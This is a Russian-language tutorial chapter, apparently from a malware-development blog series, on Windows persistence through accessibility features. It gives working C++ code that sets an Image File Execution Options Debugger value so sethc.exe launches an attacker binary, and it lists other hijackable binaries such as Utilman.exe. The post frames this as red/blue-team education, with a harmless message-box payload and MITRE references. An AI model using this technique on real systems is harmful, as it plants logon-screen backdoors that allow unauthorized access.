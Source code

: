 \newpage
\subsection{78. Разработка вредоносного ПО: закрепление (persistence) - часть 12. Функции доступности. Простой пример на C++.}

﷽

![pers](./images/72/2022-09-30_17-48.png){width="80%"}    

Этот пост является результатом моего собственного исследования ещё одного метода закрепления вредоносного ПО на уровне администратора: через функции доступности Windows.    

В одном из [предыдущих](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) постов я писал о закреплении через Image File Execution Options. В одном из примеров PoC мы просто создавали отладчик для процесса-жертвы в этом ключе реестра:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

После этого единственное, что требовалось, - разместить вредоносное приложение в `System32`.    

### практический пример. sethc.exe

Сегодня я просто заменю наш целевой процесс на `sethc.exe`. Но что такое `sethc.exe`? Этот исполняемый файл отвечает за залипающие клавиши. Нажатие клавиши `Shift` `5` раз включает залипающие клавиши:    

![pers](./images/72/2022-09-30_17-26.png){width="80%"}    

Вместо легитимного `sethc.exe` будет запущен поддельный `sethc.exe`, который, как обычно, для простоты просто вызывает messagebox "meow". Исходный код довольно похож (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

окно сообщения Meow-meow:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### демонстрация

Давайте посмотрим, как это работает на практике. Сначала проверим ключи реестра:        

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

![pers](./images/72/2022-09-30_17-32.png){width="80%"}    

Затем, компилируем наш `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/72/2022-09-30_17-40.png){width="80%"}    

Запустим и снова проверим реестр:    

> **Для замены системного бинарного файла Windows требуются права администратора**    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

![pers](./images/72/2022-09-30_17-44.png){width="80%"}    

Наконец, нажмем `Shift` `5` раз:     

![pers](./images/72/2022-09-30_17-46.png){width="80%"}    

Посмотрим на свойства `hack.exe`:     

![pers](./images/72/2022-09-30_17-47.png){width="80%"}    

![pers](./images/72/2022-09-30_17-47_1.png){width="80%"}    

Отлично! =^..^=    

После завершения эксперимента, для очистки, выполните:     

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

![pers](./images/72/2022-10-01_03-39.png){width="80%"}    

### заключение

Функции доступности Windows включают набор утилит, доступных с экрана входа в систему (например, залипающие клавиши). Некоторые из этих функций и их соответствующие триггеры:

**1. Диспетчер специальных возможностей**     
- `C:\Windows\System32\Utilman.exe`     
- Триггер: `Windows + U`      

**2. Экранная клавиатура**     
- `C:\Windows\System32\osk.exe`      
- Триггер: клик по экранной клавиатуре     

**3. Экранная лупа**   
- `C:\Windows\System32\Magnify.exe`     
- Триггер: `Windows + =`        

**4. Экранный диктор**       
- `C:\Windows\System32\Narrator.exe`    
- Триггер: `Windows + Enter`    

**5. Переключение экрана**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Триггер: `Windows + P`    

Эти функции Windows стали широко известны после того, как группы APT использовали их для получения бэкдора на целевых компьютерах. Например, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) и [APT41](https://attack.mitre.org/groups/G0096/) использовали залипающие клавиши.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит инструмент в арсенал красных команд.    

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      
